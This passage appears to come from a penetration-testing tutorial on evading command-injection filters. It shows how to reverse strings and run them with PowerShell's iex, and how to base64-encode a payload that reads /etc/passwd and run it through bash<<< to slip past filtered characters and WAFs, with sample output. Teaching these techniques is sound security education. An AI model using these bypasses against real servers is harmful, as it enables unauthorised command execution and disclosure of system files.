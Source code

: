 The same can be applied in `Windows.` We can first reverse a string, as follows:
```powershell-session
"whoami"[-1..-20] -join ''

imaohw
```

We can now use the below command to execute a reversed string with a PowerShell sub-shell (`iex "$()"`), as follows:
```powershell-session
iex "$('imaohw'[-1..-20] -join '')"

21y4d
```
## Encoded Commands
helpful for commands containing filtered characters or characters that may be URL-decoded by the server.

Instead of copying an existing command online, we will try to create our own unique obfuscation command this time. This way, it is much less likely to be denied by a filter or a WAF. The command we create will be unique to each case, depending on what characters are allowed and the level of security on the server.

We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding). Let's take `base64` as an example.

First, we'll encode the payload we want to execute (which includes filtered characters):
```bash
echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to `bash` to be executed (i.e. `bash<<<`), as follows:
```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
> Tip: Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.

- Even if some commands were filtered, like `bash` or `base64`, we could bypass that filter with the techniques we discussed in the previous section

We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:
```powershell-session
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

We may also achieve the same thing on Linux, but we would have to convert the string from `utf-8` to `utf-16` before we `base64` it, as follows:
```bash
echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```
